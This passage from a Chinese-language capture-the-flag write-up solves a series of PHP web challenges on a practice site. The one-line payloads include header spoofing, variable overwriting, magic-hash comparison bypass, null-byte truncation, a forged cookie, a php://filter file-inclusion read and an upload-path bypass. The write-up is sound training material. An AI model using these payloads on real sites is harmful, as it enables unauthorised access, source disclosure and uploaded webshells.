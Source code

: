 X-Forwarded-For, Client-IP 都试一下, 最后得到检测的是 Client-IP,  `curl http://chinalover.sinaapp.com/web4/xxx.php -H "Client-IP: 127.0.0.1" -v`, 得到 `nctf{happy_http_headers}`

### 0x11 变量覆盖

直接将两个变量覆盖即可, `curl -X POST http://chinalover.sinaapp.com/web18/index.php -d "pass=asd&thepassword_123=asd"`, 得到 `nctf{bian_liang_fu_gai!}`

### 0x12 bypass again

经典题, `a=QNKCDZO&b=240610708`, 得到 `nctf{php_is_so_cool}`

### 0x13 \\x00

题目暗示 00 截断, 试了下 `nctf=123123%00%23biubiubiu`, 得到 `nctf{use_00_to_jieduan}`

### 0x14 MYSQL

进 robots.txt 拿到提示, intval 是取整数的, 所以我们直接 `id=1024.1`, 就可以拿到 `nctf{query_in_mysql}`

### 0x15 COOKIE

修改 cookie 中的 login 的值为 1 即可, curl `http://chinalover.sinaapp.com/web10/index.php -H "Cookie: Login=1"`, 得到 `nctf{cookie_is_different_from_session}`

### 0x16 单身一百年也没用

curl `http://chinalover.sinaapp.com/web9/index.php -v` 即可, 得到 `nctf{this_is_302_redirect}`

### 0x17 文件包含

经典题目, `file=php://filter/read=convert.base64-encode/resource=index.php`, 再拿去解个码, 得到 `nctf{edulcni_elif_lacol_si_siht}`

### 0x18 php decode

这道题挺坑的... 直接把 eval 换成 echo, 放在 php 环境运行一下就行了, 得到 `nctf{gzip_base64_hhhhhh}`

### 0x19 单身二十年

`curl http://chinalover.sinaapp.com/web8/search_key.php -v`, 得到 `nctf{yougotit_script_now}`

### 0x1A AAENCODE

直接丢到 console 运行得到 `nctf{javascript_aaencode}`, 不得不说这个编码简直神经病 233

### 0x1C 层层递进

有毒... 根本没啥思路, 百度了一手发现是在 `404.html` 里面, 取注释里面 `jquery-x` 的最后一位拼起来就可以了, 纯脑洞啊..., 拼起来得到 `nctf{this_is_a_fl4g}`

### 0x1D 上传绕过

将 /uploads/ 后面添加一个 test.php 再加上个 \\x00 就可以了, 代码应该是把 dir + filename 组合后作为保存路径. \\x00 截断后, 保存路径就变成了 /uploads/test.php, 成功绕过, 得到 `nctf{welcome_to_hacks_world}`